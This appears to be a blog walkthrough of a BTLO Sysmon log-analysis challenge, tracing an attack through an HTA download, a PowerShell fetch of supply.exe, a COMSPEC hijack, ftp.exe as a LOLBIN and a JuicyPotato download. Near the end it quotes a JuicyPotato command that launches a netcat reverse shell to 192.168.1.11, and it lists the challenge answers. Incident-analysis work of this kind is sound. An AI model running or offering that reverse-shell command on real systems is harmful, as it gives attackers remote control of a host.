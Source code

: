 ```yaml
---
layout: post
title: Log Analysis - Sysmon
date: 2024-01-31 8:00 +0700
categories: [BTLO, Security Operations]
tags: [Text Editor, PowerShell, Linux CLI, Blue Team, btlo]     # TAG names should always be lowercase
img_path: '/assets/BTLO'
image: 
  path: logo.png
--- 
```


I have read the questions so I can temporarily skip question 1 because I have no idea how to do it

### 2) What is the powershell cmdlet used to download the malware file and what is the port? (2 points)

Let's try searching for `powershell` to see if there's anything there
> After I searched on the `mousepad`, it was quite a lot, so I grep it and export it to a file to make it easier to see

```
grep 'powershell' sysmon-events.json > powershell.json

```

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/178ab53e-cf10-4aa4-886c-9156287c5509)

it's quite... ummm like tinder in my eyes @~@

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cb4959b3-154f-48fd-af15-de720536b7d2)

After sitting down and reading, I saw the problem here when it downloads files `supply.exe` from `192.168.1.11` with port `6969` 
> `Invoke-WebRequest` is a command in PowerShell to load content from a `URL` or interact with `web services`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c476cc72-c049-499e-b05f-f9de4eb954ea)

`INvoke-WebRequest, 6969`

After determining the address of the attacker, go through the original file to see if it still interacts with anything else

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/fc5f0f6e-a7a9-49dc-806a-a22978e9ce5b)


oh well, so I downloaded something from Chrrome and then go back to `question 1`

### What is the file that gave access to the attacker? (2 points)

I read it and everything was pretty normal until I saw a download of an `updater.hta` file .-.
> with `EventID: 15`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/93d2024b-c47d-492a-8818-8e455a2d871a)

We will learn about each one one by one

I just found this [report](https://www.joesandbox.com/analysis/1305463/0/html) :)))

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/04246404-388e-43d9-8a1f-3425aa41e18a)


![Alt text](https://media.giphy.com/media/PUBxelwT57jsQ/giphy.gif?cid=ecf05e47pzmz36leierqqgy6pmwkp2668u9ed6sif8q77h3n&ep=v1_gifs_search&rid=giphy.gif&ct=g)


Information about [EventID :15](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90015)
> This event logs when a named file stream is created, and it generates events that log the hash of the contents of the file to which the stream is assigned (the unnamed stream), as well as the contents of the named stream. There are malware variants that drop their executables or configuration settings via browser downloads, and this event is aimed at capturing that based on the browser attaching a Zone.Identifier “mark of the web” stream.

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/62db1b68-9b12-4451-8998-1ea7b397b201)

From now on, it can be concluded that chrome is used to download `updater.hta` from hosting 192.168.1.11

Do you see `ZoneTransfer` with `ZoneId=3`?
> After researching on Google about [ZoneTransfer](https://michaelhidalgo.medium.com/sysmon-11-10-a-new-avenue-for-threat-detection-261fedbbe8b3)
```
0 — Local Machine Zone
1 — Local Intranet Zone
2 — Trusted Sites Zone
3 — Internet Zone
4 — Restricted Sites Zone
``` 
> So you know what `ZoneId=3` does, right ~

`updater.hta`

### 3) What is the name of the environment variable set by the attacker? (2 points)

After a morning of research, I found a blog about this issue [HUNTRESS](https://www.huntress.com/blog/from-powershell-to-payload-an-analysis-of-weaponized-malware)
> After reading, we know that `COMSPEC` is an environment variable and it usually points to cmd.exe

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/967c4045-cd8e-45e4-a464-33a6f2cb6b16)

`comspec=c:\Windows\temp\supply.exe`

### 4) What is the process used as a LOLBIN to execute malicious commands? (2 points)

Here is the document for your reference [Hunting for LoLBins](https://blog.talosintelligence.com/hunting-for-lolbins/)
> Simply put, it means taking advantage of any binary file provided by the operating system

after setting the environment variable `comspec` the binary file `ftp.exe` was executed

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/b31ba9ab-2fcc-494c-b608-e11060a20ecb)

`ftp.exe`

### 5) Malware executed multiple same commands at a time, what is the first command executed? (2 points)

I haven't done anything yet, just scrolled down and read it and boom!! kkk
> I see it executes the `ipconfig` command

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/95fb9530-850c-458a-a78c-329cf8159225)

`ipconfig` 

### 6) Looking at the dependency events around the malware, can you able to figure out the language, the malware is written (2 points)

After searching by `supply.exe`, see `python27.dll`, and yeh sure it is written in `python` code

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/0e23be30-7c88-49f0-a0b1-2fecd9539ea6)

`python`

### 7) Malware then downloads a new file, find out the full url of the file download (4 points)

Do you remember the powershell files we exported initially? Open them and you will see ~ 
> I suggest you can learn more about it here [juicy-potato](https://github.com/ohpe/juicy-potato)

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c9566dc0-840a-453c-aeec-95bbee101e2d)

`https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`

### 8) What is the port the attacker attempts to get reverse shell? (4 points)

After juicyPotato was downloaded, the attacker executed the following command
```
juicy.exe -l 9999 -p nc.exe -a \"192.168.1.11 9898 -e cmd.exe\

```

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/eb382701-fc28-4ae7-9d6c-dad682fde5fe)

`9898`

complete :_) 

![Alt text](https://media.giphy.com/media/JUADnkGLNv9n9eAPix/giphy.gif?cid=82a1493brjj1s7oqd1p1gg0fs50zdiyduzqpx7fo43dcqvsf&ep=v1_gifs_trending&rid=giphy.gif&ct=g)

goodbye, thank you for reading until now //~//


















